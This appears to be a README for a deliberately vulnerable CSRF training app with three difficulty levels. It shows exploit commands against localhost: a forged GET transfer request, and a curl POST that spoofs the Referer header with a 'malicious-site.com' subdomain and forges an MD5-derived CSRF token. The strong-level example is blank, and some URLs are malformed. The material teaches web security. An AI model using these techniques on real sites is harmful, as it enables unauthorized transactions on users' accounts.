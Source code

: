 # CSRF Token

The app is divided into three levels: Weak, Medium, and Strong. Each level introduces progressively stronger input sanitization, making it harder to exploit.

## CSRF Token Levels

### 1. Weak Level
- **Description**: This level simulates weak form validation and absense of csrf token.
- **Exploit Example**:
  ```
  Call this from a different tab or browser
  GET -> http://localhost:8000/csrf/csrf?amount=32&recipient=any
  ```

---

### 2. Medium Level
- **Description**: Referer bypass
- **Info**: Using the normal get req wouldn't work, now there is a check for csrf_token
- **Exploit Example**:
  ```bash
  # The csrf_roken is generated with md5 hash using current username 
  # (check the code), so it can be easily generated
  # Referer bypass can be done with insecured-domain.malicious-site.com
  
  # Still you can use GET
  curl -X POST 'http:/localhost:8000/csrf/csrf?level=medium' \
  -H "Referer: http:/localhost:8000.domain.malicious-site.com" \
  -d "amount=32&recipient=dsads&csrf_token={generated_csrf_token}" -b cookies

  ```

---

### 3. Strong Level
- **Description**: The csrf_token is safely generated and stored in session.
- **Exploit Example**:

---

